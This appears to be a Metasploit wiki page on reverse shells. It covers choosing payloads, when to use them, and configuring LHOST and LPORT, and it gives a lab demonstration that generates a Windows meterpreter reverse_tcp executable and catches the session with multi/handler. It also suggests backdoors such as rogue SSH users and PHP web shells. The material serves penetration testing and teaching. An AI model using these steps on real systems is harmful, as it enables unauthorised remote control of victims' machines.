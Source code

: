There are two popular types of shells: bind and reverse. A bind shell opens up a new service on the target machine, and requires the attacker to connect to it. A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.

The basic usage of payloads is already quite well documented in the [Users Guide](https://github.com/rapid7/metasploit-framework/blob/master/documentation/users_guide_4.3.pdf) in Metasploit's documentation folder. However, learning how to use a reverse shell still remains the most common question in the Metasploit community. Plus, 9 times out of 10 you'd probably be using a reverse shell to get a session, so in this wiki documentation we will explain more about this.

## List of Metasploit reverse shells

As of now, there are 168 different reverse shells in the Metasploit Framework. We will not list all of them here, because that's just straight up spamming. But if you'd like, you can run the following command to get msfpayload to tell you:

```bash
./msfpayload -l |grep reverse
```

As a rule of thumb, always pick a meterpreter, because it currently provides better support of post exploitation Metasploit has to offer. For example, railgun, post modules, unique meterpreter commands (like webcam controls), etc.

In Windows, the most commonly used reverse shell is windows/meterpreter/reverse. But you can also try windows/meterpreter/reverse_http or windows/meterpreter/reverse_https, because their network traffic appear a little bit less abnormal.

In Linux, you can also try linux/x86/meterpreter/reverse_tcp, or the 64-bit one. However, just know that linux/x86/shell_reverse_tcp has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios (but not limited to), then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind the port it wants due to whatever reason.
* You simply can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example: if the target machine is already running a SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP, or ASP.net. The Metasploit Framework offers payloads in all these languages (and many others).

Same thing for VNC, remote desktop, or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell with either msfpayload or msfvenom, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to, literally. If you're in a local area network, it is very unlike your target machine can reach you unless you both are in the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", basically if you do, you're basically telling the target machine to connect to itself.
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.123 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

**Step 1: I generate my executable payload:**

On the attacker's box, I run msfpayload like the following (or msfvenom, whatever you prefer):


```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 X > /tmp/iambad.exe  
Created by msfpayload (http://www.metasploit.com).  
Payload: windows/meterpreter/reverse_tcp  
Length: 287  
Options: {"LHOST"=>"192.168.1.123", "LPORT"=>"4444"}  
```

**Step 2: I copy my executable payload to Box B (my victim machine)**
 
This step requires no further explanation.

**Step 3: I set up my payload handler on box A (the attacker's box):**

```bash
$ ./msfconsole -q  
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123 
msf exploit(handler) > set lport 4444  
lport => 4444  
msf exploit(handler) > run  
  
[*] Started reverse handler on 192.168.1.123:4444  
[*] Starting the payload handler...  
```

**Step 4: I double-click on the malicious executable**
 
This step requires no further explanation.
 
**Step 5: I should see a meterpreter/payload session on box A (the attacker's box)**
 
Like this:


```bash
$ ./msfconsole -q  
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444  
lport => 4444  
msf exploit(handler) > run  
  
[*] Started reverse handler on 192.168.1.123:4444  
[*] Starting the payload handler...  
[*] Sending stage (770048 bytes) to 192.168.1.80  
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500  
meterpreter >  
```

The meterpreter prompt means you are currently interacting with the payload.